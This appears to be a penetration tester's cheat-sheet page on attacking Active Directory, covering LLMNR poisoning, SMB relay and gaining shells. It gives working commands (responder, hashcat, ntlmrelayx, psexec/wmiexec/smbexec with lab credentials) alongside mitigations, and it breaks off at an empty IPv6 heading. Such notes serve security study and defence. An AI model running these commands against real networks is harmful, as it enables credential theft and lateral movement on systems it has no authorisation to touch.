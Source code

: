 ```yaml
---
description: Hacking Active directory
---
```


# Active Directory

### LLMNR Poisoning

DNS or NBT-NS. Responds with NTLMv2 hash.

`responder -I eth0 -rdwv`

`hashcat -m 5600 hashes.txt rockyou.txt`

Mitigation:

* Disable LLMNR

  Local Computer Policy &gt; Computer Configuration &gt; Administrative Templates &gt; Network &gt; DNS Client in the Group Policy Editor&gt; "Turn OFF Multicast Name Resolution" 

* Disable NBT-NS

  Network Connections &gt; Network Adapter Properties &gt; TCPv4 Properties &gt; Advanced tab &gt; WINS tab &gt; select "Disable NetBIOS over TCP/IP"

\(Else\)

* Require Network Access Control
* Strong user passwords &gt; 14 characters and limit common word usage.

### SMB Relay

SMB signing must be disabled on target.

We can scan if host has SMB signing disabled using nessus, smbsign, nmap etc. Below is an namp scan result example where the SMB signing is 'not required' and can perform relay attacks on

```text
nmap --script=smb2-security-mode.nse -p445 192.168.42.0/24

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
```

Steps:

1. write target ip address to `targets.txt`
2. Config responder to turn off 'HTTP' and 'SMB' to prevent responding to these protocols `/usr/share/responder/Responder./conf`
3. Use `ntlmrelayx.py -tf targets.txt -smb2support`

Mitigation:

* Enable SMB signing on all
  * pro: completely stops attacks. 
  * con: causes performance issues with file copying
* Disable NTLM auth
  * pro: completely stops attacks
  * con: if kerberos stop working, windows default back to NTLM
* Account tiering
  * pro: Limits domain admins to specific tasks
  * con: enforicing policy may be difficult
* Local admin restriction
  * pro: prevents alot lateral movements.
  * con: potentially increase in amount of service desk tickets

### SMB gaining shell access

```bash
# Impacket
psexec.py adhacking.local/saul:Password123@192.168.42.139

# Wmiexec
wmiexec.py adhacking.local/saul:Password123@192.168.42.139

# Smbexec
smbexec.py adhacking.local/saul:Password123@192.168.42.139

# Metasploit
exploit(windows/smb/psexec) > 

```

\`\`

\`\`

\`\`

### IPv6 Attacks

